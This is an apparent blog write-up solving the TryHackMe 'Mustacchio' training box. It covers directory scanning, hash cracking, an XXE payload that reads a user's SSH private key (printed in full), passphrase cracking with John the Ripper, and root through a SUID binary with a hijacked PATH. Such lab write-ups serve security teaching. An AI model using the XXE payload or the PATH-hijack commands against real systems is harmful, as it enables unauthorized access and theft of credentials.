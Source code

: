 ```yaml
---
published: false
---
```

Well hello people. This is a writeup of the Mustacchio CTF from Tryhackme. 
It was rated as a easy level box and it’s a really interesting challenge so 
without further due let’s start the hack.

![]({{site.baseurl}}/images/mustacchio/mustache.png)

Room : [Mustacchio](https://tryhackme.com/room/mustacchio)

## Nmap Scanning

>  nmap -p- IPADDR

We get the following ports open :

 - 22 ssh
 - 80 http
 - 8765 ultraseek-http

So after scanning we know there is a website running on this machine so lets hope on to it and have a look.

![]({{site.baseurl}}/images/mustacchio/site.png)

## Go Gobuster!!!

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/common.txt

![]({{site.baseurl}}/images/mustacchio/gobuster.png)

After the scan you can see we got some directories. Most of them are dead ends but the `custom` has a .bak file in it. After downloading it we can see that it is some sort of a SQL backup file with some credentials.

![]({{site.baseurl}}/images/mustacchio/bak.png)

After using crackstation to crack the password we get the following credentails :

``` admin:bulldog19 ```

Now, lets check the 8765 port 

![]({{site.baseurl}}/images/mustacchio/login-page.png)

We get this login page. Hmm... let try those credential we just found. 

![]({{site.baseurl}}/images/mustacchio/xxe.png)

And we are in! Lets look at the source code.

![]({{site.baseurl}}/images/mustacchio/source.png)

We see these two intersting comments. The 2nd one tells us a username for the SSH login which is Barry. The 1st is looks like a path. After checking the path we get a dontforget.bak file with some XML code written in it.

## XXE

We can try to read the id_rsa file on barry from the machine by attempting binding a payload to the sample XML code we got from the dontforget.bak file

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

And we get the id_rsa but we have to format it properly by adding spaces and line breaks otherwise it will give an error while logging it.


> -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----



## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/johnTheRipper/ssh2John.py id_rsa  hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passphrase : ``` urieljames```

## Loggin into SSH

After loggin in we get the user flag right away

![]({{site.baseurl}}/images/mustacchio/loginSSH.png)

## Privilege escalation

Lets look for SUIDs to exploit as it is given in the hint

> find / -perm -u=s -type f 2>/dev/null

We get a binary called live_log in joe's directory and luckily we can move into his directory as well.
After using strings on the binary file we see this interesting line

> tail -f /var/log/nginx/access.log

Intresting. Lets use this to gain root. Lets create a file named tail and make it executable and a script to get root. We also have to change the path to our file 

> echo "/bin/bash" > tail

> chmod +x tail

> export PATH=/tmp:$PATH

Now lets run the `live_log` binary.

![]({{site.baseurl}}/images/mustacchio/root.png)

And that's it. We got root. This was a fun box. Though i have to admit i had to take some hints on the way but still it was a great learning experience. Hope you enjoyed this as well :)
